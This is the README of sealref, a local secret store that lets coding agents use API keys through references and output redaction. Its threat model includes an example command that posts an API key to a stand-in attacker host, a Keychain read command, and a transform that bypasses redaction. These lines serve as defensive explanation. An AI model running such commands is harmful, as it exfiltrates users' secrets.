

# sealref

Keep API keys out of your coding agent's transcript. sealref stores secrets in
the OS keystore (macOS Keychain, Linux Secret Service, Windows Credential Manager) and gives agents references (`sealref://stripe/API_KEY`)
instead of values. The value is only ever injected into the environment of a
child process, and that process's output is scrubbed before the agent sees it.

## Renamed from vaultlet (compatibility)

sealref was called vaultlet. Nothing existing breaks:

- The `vaultlet` command still works (`bin/vaultlet`), identically.
- Refs are accepted in both schemes everywhere: `sealref://g/k` and `vaultlet://g/k`.
- Refs are *printed* as `vaultlet://` by default so existing tools keep working.
  Print `sealref://` with `SEALREF_REF_SCHEME=sealref` or
  `sealref --ref-scheme sealref keys <group>`.
- Storage is unchanged: Keychain service `vaultlet:<group>` and `~/.vaultlet/`.
  No migration is needed or performed.
- MCP: tool names are unchanged. `python -m vaultlet.mcp_server` keeps working
  and reports server name `vaultlet`; `python -m sealref.mcp_server` reports
  `sealref`. Register under whichever name you like.

## The agent workflow

1. The agent calls `list_keys` / `has_secret` over MCP and sees only refs.
2. If a secret is missing, it calls `request_secret(group, key, reason)`. A
   local page opens in your browser; you type the value there. The tool
   returns the ref, not the value. Nothing is pasted into chat.
3. To use it, the agent runs the real command through sealref:

   ```sh
   sealref run --ref sealref://stripe/API_KEY -- sh -c 'curl -s https://api.stripe.com/v1/balance -u "$API_KEY:"'
   sealref run --group stripe -- ./deploy.sh
   ```

   The value goes into the child's environment. The child's stdout and stderr
   are streamed back with every injected value, and its base64 and
   URL-encoded forms, replaced by `«redacted:stripe/API_KEY»`.

There is no MCP tool and no CLI command that prints a value. That is the
design; see [Threat model](#threat-model) for what it does and does not buy you.

## Why sealref

**The problem.** To let an agent call an API you paste the key into chat, or
hand it over some awkward side channel. The key is now in the transcript, the
provider's logs, the context window re-sent every turn, and often shell history.

**What changes.** You type the value once into a hidden prompt (`sealref set`)
or the local page (`sealref ui`). The agent only ever holds
`sealref://stripe/API_KEY`. `sealref run` injects the value into one child
process's environment and scrubs the child's output, so tool results in the
transcript carry `«redacted:stripe/API_KEY»` instead of the key.



Reproduce it with `sh demo/demo.sh` (throwaway group `demo`, fake key
`sk-demo-FAKE-...`, removed on exit; refuses to run if the group already
exists). Captured output: [demo/demo-output.txt](demo/demo-output.txt), animation:
[demo/demo.gif](demo/demo.gif).

**What scrubbing catches, checked against the code and the demo.** Exact
matches of the raw value, its base64, and its URL-quoted form, in stdout and
stderr, line by line. So `sealref run ... -- env` prints
`API_KEY=«redacted:...»`: dumping the environment does not leak.

**What it does not catch.** Any other transform (`echo $API_KEY | rev`, hex,
a substring or prefix, character-by-character output), a value split across
lines, anything the command sends over the network, or a command that writes
the value to a file the agent then reads. An agent that wants the value can
get it by running such a command, or by reading the Keychain directly as
your user. sealref prevents accidents and casual leakage; it is not a
sandbox. Gate `sealref run` behind your agent's permission prompts.

## Install

Requires **Python 3.10 or newer** (the MCP server's `mcp` dependency needs it;
tested on 3.12). macOS needs nothing beyond the standard library; Linux and
Windows need the `keyring` extra. The MCP server runs through `uv`, so nothing
is installed into your environment.

```sh
# macOS
git clone https://github.com/anhermon/sealref ~/src/sealref
ln -s ~/src/sealref/bin/sealref /usr/local/bin/sealref   # or: pip install ~/src/sealref
brew install uv                                          # for the MCP server

# Linux desktop (needs a running, unlocked Secret Service: GNOME Keyring or KWallet)
pip install 'sealref[keyring] @ git+https://github.com/anhermon/sealref'
curl -LsSf https://astral.sh/uv/install.sh | sh          # for the MCP server

# Windows (untested): pip install "sealref[keyring] @ git+https://github.com/anhermon/sealref"
```

`pip install` creates `sealref` and `vaultlet` console commands on every
platform; the `bin/` shell scripts are only a no-install convenience for
macOS/Linux.

## Quickstart

```sh
sealref ui                       # open the local page, create a group, add keys
sealref set stripe API_KEY       # or: hidden prompt (value read from stdin if piped)
sealref groups
sealref keys stripe              # key names and refs, no values
sealref run --group stripe -- sh -c 'echo "key length: ${#API_KEY}"'
```

## MCP setup (Claude Code)

```sh
claude mcp add sealref --scope user -- \
  uv run --directory /absolute/path/to/sealref --with "mcp==1.29.0" \
  python -m sealref.mcp_server
```

Equivalent `.mcp.json`:

```json
{
  "mcpServers": {
    "sealref": {
      "command": "uv",
      "args": ["run", "--directory", "/absolute/path/to/sealref",
               "--with", "mcp==1.29.0", "python", "-m", "sealref.mcp_server"]
    }
  }
}
```

`mcp` is pinned to 1.x because 2.0 removed `mcp.server.fastmcp`, which the
server uses. Tools: `list_groups`, `list_keys`, `has_secret`,
`request_secret`, `usage_hint`. All return names or refs, never values.

## CLI

```
sealref groups
sealref keys <group>
sealref ui [--port N]
sealref set <group> <key>
sealref request <group> <key> [--reason TEXT]
sealref run [--group G]... [--ref sealref://g/k[=ENVNAME]]... -- <cmd> [args...]
```

`--group G` injects every key in G under its own name. `--ref` injects one key,
optionally under another env var name. `run` exits with the child's exit code.
`run` does not expand `$VARS` itself; wrap in `sh -c` if the command line needs
them. Group names match `[A-Za-z0-9_.-]+`; key names must be valid env var names.

## Platforms

Storage goes through a small backend interface (`sealref/backends.py`:
`get`/`set`/`delete` by group and key). Group and key names stay in
`~/.vaultlet/index.json` on every platform, so the metadata layout is unchanged
and listing needs no backend support. Items are always service `vaultlet:<group>`,
account `<key>`. Pick with `SEALREF_BACKEND=macos|keyring`; default is `macos`
on darwin and `keyring` elsewhere.

| Platform | Backend | Status | How it was tested |
|---|---|---|---|
| macOS | `macos` (Keychain via `security`) | Supported | Real Keychain round trip and the demo, macOS 15, Python 3.12. |
| Linux desktop (Secret Service) | `keyring` | Supported | Debian 12 container, Python 3.12, `gnome-keyring` under `dbus-run-session`: unit tests, a live keyring round trip, store, `run` with scrubbing, and the MCP server over stdio (`scripts/linux-docker.sh desktop`). Not tried on KWallet or a physical desktop. |
| Linux headless, CI, containers, WSL without a keyring daemon | none | **Not supported** | Tested: sealref exits 1 with `no usable OS keyring ...` and stores nothing (`scripts/linux-docker.sh headless`). No encrypted-file fallback, see below. |
| Windows | `keyring` (Credential Manager) | **Untested** | Code paths reviewed and made portable; never run on Windows. Credential Manager caps a value at about 2.5 KB. |

`sealref` only uses `keyring` backends that are OS keystores (Secret Service,
libsecret, KWallet, macOS, Windows). If `keyring` selects anything else, for
example the plaintext backend from `keyrings.alt` or a
`PYTHON_KEYRING_BACKEND` override, sealref refuses and exits 1 rather than
store the value.

There is deliberately no encrypted-file fallback. Doing it safely needs an
AEAD and a KDF (not in the standard library) and a passphrase prompt that
`sealref run` cannot do unattended; plaintext or home-rolled crypto would be
worse than a clear error. On a headless Linux box without a Secret Service
daemon, sealref fails with a one-line error (`sealref: no usable OS keyring
...`) rather than degrading. A secure headless option (for example an encrypted
file unlocked by a passphrase) is an open design choice and is not built.

Windows notes: `~/.vaultlet` is created with the default user-profile ACLs (the
POSIX 0700/0600 modes are not enforced there), and the examples that use
`sh -c` and `demo/demo.sh` assume a POSIX shell. `sealref run` itself does not
use a shell, so on Windows pass the program directly, e.g.
`sealref run --ref sealref://g/K -- python -c "import os; print(len(os.environ['K']))"`.

## How it works

Values live in the platform keystore (macOS shown): service `vaultlet:<group>`, account `<key>`. An
index of group and key names (no values) is kept in `~/.vaultlet/index.json`,
mode 0600. Writes pass the value to `security -i` on stdin, so it does not
appear in `ps`. The management page binds to 127.0.0.1 only, rejects requests
with a foreign `Host` or `Origin`, and its API never returns a value. Only
`sealref run` reads values back.

## Threat model

sealref protects against a secret *accidentally* landing in an agent
transcript, shell history, or log. It is not a sandbox against an agent that
wants the value.

- Anything running as your user can read the Keychain item with
  `security find-generic-password -w`. sealref adds no barrier there.
- The agent chooses the command that `sealref run` executes. A command such as
  `sh -c 'echo $API_KEY | rev'` defeats redaction, and
  `curl https://attacker.example -d "$API_KEY"` sends the value off-machine.
  Review what the agent runs, or gate `sealref run` behind your agent's
  permission prompts.
- The child process can read its own environment, and so can anything else
  running as you that can inspect it.
- Redaction is line-based. A value split across lines, or in a stream that never
  emits a newline, can pass through. Encodings other than raw, base64 and
  URL-quoted are not caught.
- Values shorter than 4 characters are not redacted (a warning is printed).
- Values cannot contain newlines.
- `request_secret` shows the agent-supplied `reason` text on the page. It is
  escaped, but a misleading reason can still talk you into entering a secret
  you should not. Read it.
- Non-macOS backends are only as strong as the OS keystore: on Linux an unlocked
  Secret Service session is readable by any process as your user.

See [SECURITY-REVIEW.md](SECURITY-REVIEW.md) for the review notes.

## How it differs, and when not to use it

- **envchain** stores secrets in the Keychain and injects them into a command's
  environment. That is sealref's `run`, minus refs, the MCP server, the entry
  page and output redaction. If you only want Keychain-to-env, use envchain.
- **1Password CLI (`op run`)** resolves `op://` references into a child's
  environment and can mask secrets in output. This is the closest design, and
  it is more mature, cross-platform, and supports teams, biometric unlock and
  rotation. If you already use 1Password, use it. sealref's difference is the
  agent-facing piece: MCP tools and a browser form so an agent can ask for a
  secret without seeing it.
- **Infisical, Doppler, HashiCorp Vault**: hosted or self-hosted secret
  managers with access control, audit logs, rotation and team sharing. Use these
  for anything shared or production. sealref is a single-user local store.
- **sops / age**: encrypted secret files you commit alongside code. A different
  problem (secrets in version control, for people and CI), and the decrypted
  value still reaches whatever reads the file.
- **direnv**: loads environment variables per directory. It has no secret
  storage and no redaction; the values end up in your shell.
- **Agent-specific tools**: several MCP servers and agent plugins expose secret
  managers to agents. I have not surveyed them exhaustively. Any that return
  values to the model put the value in the transcript, which is the case
  sealref exists to avoid.

Do not use sealref if you need team sharing, audit logging,
rotation, a hardened boundary against a hostile agent, or production secrets.

## Development

```sh
python3 -m unittest -v test_sealref test_crossplatform
```

The MCP and live-keyring tests need `pip install mcp keyring`; without `mcp` they skip.
Linux runs: `scripts/linux-docker.sh desktop` and `scripts/linux-docker.sh headless`
(Docker, e.g. colima; the repo must be under a path the VM mounts).

The backend tests use fakes and never touch a real store. The Keychain round-trip test writes and deletes an item named
`vaultlet:vaultlet-test-integration`. Set `SEALREF_SKIP_KEYCHAIN=1` (or legacy `VAULTLET_SKIP_KEYCHAIN=1`) to skip it.

## License

MIT. See [LICENSE](LICENSE).
